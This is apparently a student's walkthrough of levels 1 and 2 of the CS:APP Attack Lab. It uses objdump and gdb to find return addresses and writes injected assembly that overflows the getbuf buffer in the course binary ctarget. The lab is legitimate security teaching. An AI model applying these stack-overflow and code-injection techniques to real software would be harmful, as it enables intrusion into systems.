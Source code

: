 # Attack Lab

## level 1

1. get assembly code

    ```
    objdump -d ctarget > c.txt
    ```

1. use gdb to run ctarget

    ```
    gdb ctarget
    ```

2. to check the assembly code

    ```
    (gdb) disas getbuf
    Dump of assembler code for function getbuf:
        0x00000000004017a8 <+0>:     sub    $0x28,%rsp
        0x00000000004017ac <+4>:     mov    %rsp,%rdi
        0x00000000004017af <+7>:     callq  0x401a40 <Gets>
        0x00000000004017b4 <+12>:    mov    $0x1,%eax
        0x00000000004017b9 <+17>:    add    $0x28,%rsp
        0x00000000004017bd <+21>:    retq   
    End of assembler dump.
    ```

    This function will get a string of 0x28 bytes (that is, 40 characters), and finally execute the retq command.

3. find address of touch1

    ```
    (gdb)disas touch1
    Dump of assembler code for function touch1:
        0x00000000004017c0 <+0>:     sub    $0x8,%rsp
    ```

4. combine the values to ctarget.1.txt and run

    ```
    ./hex2raw < ctarget.1.txt | ./ctarget -q
    ```

## level 2

1. in assembly code find touch2

    ```
    00000000004017ec <touch2>:
    ```

    We see that touch2 has passed a parameter, and if the value of this parameter is equal to the cookie, it will be successful. The value of the cookie is in the given file cookie.txt, my cookie is 0x59b997fa.

2. assembly code should be

    ```
    movq    $0x59b997fa, %rdi
    pushq   $0x4017ec
    ret
    ```

3. Compile on the command line 

    ```
    gcc -c l2.s
    objdump -d l2.o
    ```

4. find %rsp using gdb

    ```
    gdb ctarget
    (gdb) break *0x4017ac
    (gdb) run -q
    (gdb) info registers
    ... 
    rsp            0x5561dc78	0x5561dc78
    ... 
    ```

5. get the %rsp address, and then write the injection string. The string is the injection code address + useless characters + return address.

